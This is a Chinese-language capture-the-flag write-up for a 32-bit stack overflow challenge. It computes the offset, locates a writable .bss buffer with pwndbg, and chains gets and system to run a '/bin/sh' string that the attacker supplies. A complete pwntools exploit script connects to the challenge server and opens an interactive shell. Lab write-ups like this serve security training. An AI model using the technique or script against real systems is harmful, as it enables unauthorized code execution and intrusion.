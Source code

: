 # 挑战简介
32位的 system(); 但是好像没"/bin/sh" 上面的办法不行了，想想办法

# 思路
对于32位的系统，没有/bin/sh的情况，我们就要想办法，看能不能获取自己的输入并system执行自己的输入

offset = 0x6C+0x4  

system_addr = 0x8048450

get_addr = 0x8048420

get用于截取你的输入，system用于执行你的输入，但是少了什么？

没错，就是buf，存储间

这里就要用pwndbg来查看每个内存段的读写权限

```
b main

run

vmmap
```
![image](https://github.com/user-attachments/assets/8d44816c-bb23-4384-8cf7-05a752b6d0a1)

可以发现0x804b000-0x804c000有读写权限，去这一段地址找

.bss段内发现

![image](https://github.com/user-attachments/assets/1b1b499d-c797-47c5-9b95-4093e85f253a)

buf2_addr = 0x804B060

因此构造payload = b'a' * offset + p32(get_addr) + p32(system_addr) + p32(buf2_addr) + p32(buf2_addr)

第一次 buf2_addr 是作为 gets 函数的参数，告诉 gets 把接收到的输入（即 /bin/sh）存放到哪里。  
第二次 buf2_addr 是作为 system 函数的参数，告诉 system 要执行的命令字符串存放在哪里（也就是刚刚 gets 写入 /bin/sh 的地方）。  

```
#!/usr/bin/python3
from pwn import *
context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28184)

offset = 0x6C + 0x4

system_addr = 0x8048450

buf2_addr = 0x804B060

get_addr = 0x8048420

payload = b'a' * offset + p32(get_addr) + p32(system_addr) + p32(buf2_addr) + p32(buf2_addr)

print(payload)

p.sendline(payload)

p.sendline("/bin/sh")

p.interactive()

```
